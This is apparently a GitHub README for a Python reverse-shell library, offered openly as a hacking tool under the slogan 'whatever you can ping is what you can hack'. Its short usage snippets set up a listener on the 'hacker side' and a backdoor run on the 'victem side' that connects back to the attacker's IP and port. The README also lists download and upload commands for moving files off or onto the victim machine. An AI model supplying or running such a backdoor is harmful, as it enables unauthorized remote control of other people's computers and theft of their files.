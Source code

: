 # whatever you can ping is what you can hack
a python lib to start a revese shell


 (hacker side):
```
 hacker=Listner("hacker Ip","open port")
 
 hacker.run()
```
 
 
 (victem side):
 
 ```
 victem=backdoor("hacker Ip","open port")
 
 victem.run()
 ```
 Listner must be excted before backdoor
 
 the script allow for donload and upload on hacker side:
 ```
 download "filename with extntion"
 upload "filename with extntion"
 ```
 
